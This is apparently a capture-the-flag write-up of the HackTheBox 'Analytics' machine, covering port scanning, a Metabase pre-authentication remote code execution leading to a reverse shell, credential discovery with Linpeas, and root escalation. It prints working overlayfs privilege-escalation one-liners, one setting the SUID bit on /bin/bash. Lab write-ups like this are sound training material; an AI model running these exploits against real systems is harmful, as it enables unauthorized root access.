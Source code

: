 ![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/5f5ec707-ebe1-4abf-b001-8eb1d6d0b011)

https://app.hackthebox.com/machines/Analytics

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration:

I began by conducting a quick rustscan, which revealed only two open ports on the target host:

```bash
sudo rustscan -a 10.10.11.233 -- -sC -sV -vv -oN analytics_nmap
```
The scan results disclosed the following open ports and services:

```Rust
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Within the port scan results, I noticed a domain running on port 80: 'http://analytical.htb/'. I promptly added this domain to my host configuration file.

After adding the domain, I explored the website and discovered that it provides data analytics-related services:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/48108fa1-165f-4112-9ff0-2a9f3161a6f0)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Sub-domain & directory enumeration:

I checked the HTML source code of the website but didn't find any relevant information. So, I proceeded to perform sub-directory and VHost enumeration.

Unfortunately, scanning the VHost and sub-directories did not yield any helpful information for gaining initial access to the target machine.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/9fa6b494-12b7-46c5-af4f-e306c7d6b90a)

I then decided to explore the login page, which redirected me to a new domain, "data.analytics.htb":

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/2288eecc-9110-4b2f-b395-f1f9c015670e)

I noticed that the application was running on MetaBase, so I began searching for any relevant exploits on the internet. After some time, I came across a [blog](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) that was published recently on July 22, 2023. The blog included a proof of concept (POC) and explained how to achieve remote code execution (RCE) on the target MetaBase application.

As per the blog, we can obtain the "setup-token" from the endpoint "/api/session/properties."

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/0af42ad5-a270-4ae3-a9bb-90c5a6a4e284)

Upon checking the same endpoint on the target application, I found the setup token in plaintext:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/b5656402-fb04-4d3a-9ae0-11c0b0b2b30b)

Using this setup token, we can authenticate ourselves on another endpoint, "/api/setup/validate," which ultimately provides us with RCE.

Please ensure that the image links and hyperlinks are accurate, and adjust them as necessary.

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Initial access:

Following the steps outlined in the blog, I launched my Burp Suite and crafted an HTTP request based on the provided proof of concept (POC). I used the setup token that I had extracted from the properties page.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/8d0847d4-0933-401a-b486-8beacea7bd19)

The final request in Burp looked something like this:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/920b4084-845a-4873-b811-d991338bd291)

With my Netcat listener running, I sent the request from Burp and successfully gained a reverse shell as the user "metabase". (pwn3d!🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/c6799046-0de8-4342-a016-0fcfd24ee46d)

Upon inspecting the current environment, I discovered that I was operating within a Docker environment.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/fcdcdacc-2a63-4017-9e85-96dcd94f4b6e)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

### User.txt:

To escape the Docker environment, I transferred the Linpeas binary to the target machine to check for potential vectors that might help me break out of Docker. Linpeas is a tool used for privilege escalation and enumeration.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/45ce5ff9-641e-452e-8b18-df721a12140c)

Linpeas revealed plaintext credentials belonging to the "metabase" user, stored in environment variables.

With these credentials, I used SSH to gain access to a stable environment. Additionally, I located the user flag in the Metabase home directory. 🙂

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/0fdd9d92-6edc-4a8f-a100-64134e5433a5)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Root flag:

After obtaining the user flag, I attempted to gain access to the root flag by executing the Linpeas script. However, I didn't find anything particularly helpful through this method.

In my quest for privilege escalation, I conducted some research and received hints about an exploit related to the Ubuntu version being used.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/2c5fd82b-5232-4cc8-a29d-fb89e16008b8)

It appears that the version is vulnerable to the [Ubuntu overlayfs vulnerability](https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability). I discovered a proof of concept (POC) on [Reddit](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/), which I decided to follow.

I executed the POC and acquired the UID assigned as "root."

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);
os.system("id")'
```

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/baf904e4-93fa-4659-ac32-d5a6a5ebb2bf)

After confirming that the POC worked as intended, I made some minor modifications and changed the bash permissions to root bash.

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0
);os.system("chmod u+s /bin/bash")'
```

Finally, I gained access to a root shell and obtained the root flag. (pwn3d! 🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/608e3dfb-04a6-484a-b71e-b0f3e1858cee)

